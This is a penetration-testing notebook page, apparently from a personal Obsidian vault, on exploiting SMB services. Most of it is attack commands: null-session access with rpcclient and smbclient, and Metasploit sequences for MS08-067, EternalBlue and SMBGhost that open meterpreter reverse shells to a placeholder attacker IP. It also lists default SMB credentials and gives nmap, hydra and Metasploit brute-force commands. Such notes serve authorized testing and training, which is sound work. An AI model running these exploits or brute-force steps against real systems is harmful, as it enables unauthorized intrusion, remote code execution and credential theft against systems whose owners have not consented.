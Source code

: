 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMB/Exploitation
links: "[[SMB]]"
---
```


# Exploitation

<!-- Checklist {{{-->
## Checklist

- [ ] [[Enumeration#RPCclient|RPCclient]]
    - [ ] [[Enumeration#Connect|Connect]]
- [ ] [[Usage#Smbclient|Smbclient]]
    - [ ] [[Usage#Connect|Connect]]
        - [ ] [[Usage#Linux|Linux]]
        - [ ] [[Usage#Windows|Windows]]
    - [ ] [[Usage#SMB Actions|Enumeration]]

- [ ] [[Exploitation#Metasploit|Metasploit]]
    - [ ] [[Exploitation#CVE Exploits|CVE Exploits]]
- [ ] [[Exploitation#Common Credentials|Common Credentials]]
- [ ] [[Exploitation#Brute Force|Brute Force]]
- [ ] [[Exploitation#EternalBlue|EternalBlue]]

___

<!-- }}} -->

<!-- SMB Null Session {{{-->
## SMB Null Session

An [SMB Null Session](https://hackviser.com/tactics/pentesting/services/smb#smb-null-session)
refers to an unauthenticated connection to an SMB server

[[Enumeration#RPCclient|RPCclient]]

```sh
rpcclient -U "" <target>
```

[[Usage#smbclient|smbclient]]

```sh
smbclient -N -L //<target>
```

[[Enumeration#SMBmap|SMBmap]]

```sh
smbmap -H <target> -u "" -p ""
```

___

<!-- }}} -->

<!-- IPC$ Share {{{-->
## IPC$ Share

Access to the
[IPC$](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#ipc-share)
share can be obtained through an anonymous null session.

> [!todo]

[[Enumeration#Enum4Linux-ng|Enum4Linux-ng]] can be utilized to interact
with the exposed services via named pipes.

___

<!-- }}} -->

<!-- CVE Exploits {{{-->
## CVE Exploits

> [!todo]

### Metasploit

Search for exploits with Metasploit

```sh
msf> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

<!-- Netapi (MS08-067) {{{-->
#### Netapi

> [!example]-
>
> ```sh
> use exploit/windows/smb/ms08_067_netapi
> set RHOSTS <target>
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST <attacker_ip>
> exploit
> ```

<!-- }}} -->

<!-- EternalBlue (MS17-010) {{{-->
#### EternalBlue

Metasploit has several [modules](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
for [[EternalBlue]] that can be used to validate and exploit the vulnerability

<!-- Example {{{-->
> [!example]-
>
> ```sh
> use exploit/windows/smb/ms17_010_eternalblue
> set RHOSTS <target>
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST <attacker_ip>
> exploit
> ```
>
> > [!info]-
> >
> > Connects to each target on port 445.
> >
> > Sends specific SMBv1 crafted packets used
> > in known EternalBlue detection techniques.
> >
> > Checks for:
> > - SMBv1 support
> > - Signs of vulnerability to MS17-010
> > - System info (*OS, hostname, etc.*)

[SecWiki-MS17-010](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS17-010/ms17_010_eternalblue.rb)
<!-- }}} -->

<!-- }}} -->

<!-- SMBGhost (CVE-2020-0796) {{{-->
### SMBGhost

A remote code execution vulnerability exists in the way
that the Microsoft [[General|SMB]] 3.1.1 (SMBv3) protocol
handles certain requests

> [!example]-
>
> ```sh
> use exploit/windows/smb/cve_2020_0796_smbghost
> set RHOSTS <target>
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST <attacker_ip>
> exploit
> ```

<!-- }}} -->

___

<!-- }}} -->

<!-- Common Credentials {{{-->
## Common Credentials

> [!danger]-
>
> | Username             | Password                                |
> | -------------------- | --------------------------------------- |
> | (blank)              | (blank)                                 |
> | guest                | (blank)                                 |
> | Administrator, admin | (blank), password, administrator, admin |
> | arcserve             | arcserve, backup                        |
> | tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
> | backupexec, backup   | backupexec, backup, arcada              |
> | test, lab, demo      | password, test, lab, demo               |

___

<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

### Nmap

Brute force SMB login with [[Nmap]]'s
[smb-brute](https://nmap.org/nsedoc/scripts/smb-brute.html)

```sh
nmap --script smb-brute -p 445 <target> -oA smb-brute-force
```

Brute force SMB login with [[Nmap]] and custom credentials

```sh
nmap -p 445 --script smb-brute --script-args userdb=<users.txt>,passdb=<passwords.txt> <target> -oA smb-brute-force-custom-credentials
```

### Hydra

Brute force SMB login with [[Hydra]]

```sh
hydra -l <target_user> -P <passwords.txt> <target> smb -t 1
```

```sh
hydra -l administrator -P <passwords.txt> smb://<target>
```

### Metasploit

Brute force SMB login with [[Metasploit]]

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Search Exploit|Search Exploit]]
>
> 2. [[Metasploit#Select Exploit|Select Exploit]]
>
> ```sh
> use auxiliary/scanner/smb/smb_login
> ```
>
> 3. [[Metasploit#Set Option|Set options]]
>
> ```sh
> set RHOSTS target.com
> ```
>
> ```sh
> set USER_FILE /path/to/users.txt
> ```
>
> ```sh
> set PASS_FILE /path/to/passwords.txt
> ```
>
> ```sh
> set STOP_ON_SUCCESS true
> ```
>
> 4. [[Metasploit#Run Exploit|Run exploit]]
>
> ```sh
> exploit
> ```
<!-- }}} -->

___

<!-- }}} -->

___

<!-- }}} -->
